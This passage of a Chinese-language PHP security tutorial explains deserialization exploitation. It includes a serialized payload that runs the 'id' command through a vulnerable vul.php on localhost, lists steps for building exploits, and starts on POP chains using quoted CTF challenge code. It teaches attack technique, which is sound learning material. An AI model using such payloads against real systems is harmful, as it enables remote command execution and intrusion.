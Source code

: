 <p data-nodeid="29314">运行生成序列化字符串：</p>
<pre class="lang-java" data-nodeid="29315"><code data-language="java">$ php poc.php
O:<span class="hljs-number">6</span>:<span class="hljs-string">"People"</span>:<span class="hljs-number">1</span>:{s:<span class="hljs-number">12</span>:<span class="hljs-string">"Peopletype"</span>;O:<span class="hljs-number">4</span>:<span class="hljs-string">"Evil"</span>:<span class="hljs-number">1</span>:{s:<span class="hljs-number">3</span>:<span class="hljs-string">"cmd"</span>;s:<span class="hljs-number">2</span>:<span class="hljs-string">"id"</span>;}}
</code></pre>
<p data-nodeid="29316">里面的 "Peopletype" 又被吃掉 \x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：</p>
<pre class="lang-java" data-nodeid="29317"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1/vul.php?str=O:6:%22People%22:1:{s:12:%22%00People%00type%22;O:4:%22Evil%22:1:{s:3:%22cmd%22;s:2:%22id%22;}}</span>
</code></pre>
<p data-nodeid="29318"><img src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUtSAOq4oAAFC9pGx2M8332.png" alt="Lark20210121-180531.png" data-nodeid="29503"></p>
<div data-nodeid="29319"><p style="text-align:center">图 1  成功利用反序列化漏洞执行任意命令</p></div>
<p data-nodeid="29320">总结下利用思路：</p>
<ol data-nodeid="29321">
<li data-nodeid="29322">
<p data-nodeid="29323">寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方，正如示例中的 Evil 类；</p>
</li>
<li data-nodeid="29324">
<p data-nodeid="29325">追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方法 __destruct()；</p>
</li>
<li data-nodeid="29326">
<p data-nodeid="29327">寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方法 __construct()；</p>
</li>
<li data-nodeid="29328">
<p data-nodeid="29329">编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；</p>
</li>
<li data-nodeid="29330">
<p data-nodeid="29331">将生成的序列化字符串传递给漏洞参数实现利用。</p>
</li>
</ol>
<h4 data-nodeid="29332">2.POP 链构造</h4>
<p data-nodeid="29333">面向属性编程（Property-Oriented Programing，POP）利用现有执行环境中原有的代码序列（比如原程序中已定义或者可动态加载的对象属性、方法），将这些调用组合在一起形式特定的调用链，以达到特定目的的方法。这与二进制漏洞利用中的 ROP（Return-Oriented Progaming，面向返回编程）的原理是相似的。</p>
<p data-nodeid="29334">其实前面利用魔术方法构建调用链的方法就算是 POP 链，只是比较简单，在真实的漏洞环境中，会复杂很多。</p>
<p data-nodeid="29335">我从网上找了一道 CTF 题，以帮助你更好地理解构建 POP 链的思路。</p>
<p data-nodeid="29336">题目代码如下，代码中有 3 个类，Output 类有构造方法 construct 和析构方法 destruct，Show 类中有一些设置属性值的方法，Test 类中则含有读取文件的方法，最后使用 GET 参数传入 unserialize() 函数导致反序列化漏洞。</p>
<pre class="lang-php" data-nodeid="29337"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Output</span></span>{
&nbsp; &nbsp; <span class="hljs-keyword">public</span> $test;
&nbsp; &nbsp; <span class="hljs-keyword">public</span> $str;
&nbsp; &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__construct</span>(<span class="hljs-params">$name</span>)</span>{
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">$this</span>-&gt;str = $name;
&nbsp; &nbsp; }
&nbsp; &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__destruct</span>(<span class="hljs-params"></span>)</span>{
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">$this</span>-&gt;test = <span class="hljs-keyword">$this</span>-&gt;str;
&nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">echo</span> <span class="hljs-keyword">$this</span>-&gt;test;
&nbsp; &nbsp; }
}
<span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Show</span></span>{
&nbsp; &nbsp; <span class="hljs-keyword">public</span> $source;